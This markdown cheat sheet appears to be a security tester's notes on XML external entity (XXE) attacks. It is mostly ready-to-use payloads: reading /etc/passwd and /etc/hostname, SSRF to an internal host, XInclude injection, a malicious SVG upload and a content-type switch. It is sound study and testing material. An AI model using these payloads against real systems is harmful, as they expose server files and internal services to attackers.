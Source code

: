 
# XXE:
Web security vulnerability that allows an attacker to interfere with an application's processing of XML data. 
It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.

There are various types of XXE attacks:

-Exploiting XXE to retrieve files, where an external entity is defined containing the contents of a file, and returned in the application's response.

-Exploiting XXE to perform SSRF attacks, where an external entity is defined based on a URL to a back-end system.

-Exploiting blind XXE exfiltrate data out-of-band, where sensitive data is transmitted from the application server to a system that the attacker controls.

-Exploiting blind XXE to retrieve data via error messages, where the attacker can trigger a parsing error message containing sensitive data.

# PREVENT XXE:

Disable thos feature that you don't need in your XML library

# General Payload to acces filesystem

Suppose a shopping application checks for the stock level of a product by submitting the following XML to the server:
```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```
The application performs no particular defenses against XXE attacks, so you can exploit the XXE vulnerability to retrieve the /etc/passwd file by submitting the following XXE payload:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>   (Note that you use file://)
<stockCheck><productId>&xxe;</productId></stockCheck>
```
# Exploiting XXE to perform SSRF attacks

If you can use the defined entity within a data value that is returned in the application's response, then you will be able to view the response from the URL within the application's response, and so gain two-way interaction with the back-end system. If not, then you will only be able to perform blind SSRF attacks. 
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```
# BLIND SSRF XXE(XInclude)

Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document. An example of this occurs when client-submitted data is placed into a back-end SOAP request, which is then processed by the backend SOAP service.

In this situation, you cannot carry out a classic XXE attack, because you don't control the entire XML document and so cannot define or modify a DOCTYPE element. However, you might be able to use XInclude instead. XInclude is a part of the XML specification that allows an XML document to be built from sub-documents. You can place an XInclude attack within any data value in an XML document, so the attack can be performed in situations where you only control a single item of data that is placed into a server-side XML document.

To perform an XInclude attack, you need to reference the XInclude namespace and provide the path to the file that you wish to include. For example:
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
# XXE attacks via file upload

An application might allow users to upload images, and process or validate these on the server after they are uploaded. Even if the application expects to receive a format 
like PNG or JPEG, the image processing library that is being used might support SVG images. Since the SVG format uses XML, an attacker can submit a malicious SVG image 
and so reach hidden attack surface for XXE vulnerabilities. 

Payload:
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
# Test XXE via Content-Type
Most POST requests use a default content type that is generated by HTML forms, such as `application/x-www-form-urlencoded`. Some web sites expect to receive requests in this format but will tolerate other content types, including XML.

For example, if a normal request contains the following:
```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```
Then you might be able submit the following request, with the same result:
```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```
